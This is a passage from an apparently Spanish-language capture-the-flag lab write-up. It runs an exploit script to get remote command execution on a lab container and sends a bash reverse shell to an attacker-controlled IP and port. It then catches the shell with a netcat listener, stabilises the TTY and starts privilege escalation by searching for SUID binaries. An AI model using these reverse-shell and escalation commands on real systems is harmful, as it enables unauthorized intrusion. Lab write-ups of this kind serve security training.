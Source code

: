 Vemos que efectivamente ha funcionado, por lo que vamos a probar a ejecutar una `reverse shell` con estos otros parametros del script.

```shell
python3 exploit.py --cgi --ip <IP_VICTIM> --port 80 --cgi -v --rce --cmd "bash -i >& /dev/tcp/<IP_ATTACKER>/<PORT> 0>&1"
```

Antes de enviarlo nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Y ahora si lo enviamos y volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.177.129] from (UNKNOWN) [172.17.0.2] 35486
bash: cannot set terminal process group (9): Inappropriate ioctl for device
bash: no job control in this shell
www-data@20f0d0246196:/usr/bin$ whoami
whoami
www-data
```

Veremos que ha funcionado, por lo que tendremos que sanitizar la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user punky

Si listamos los permisos `SUID` que hay.

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:
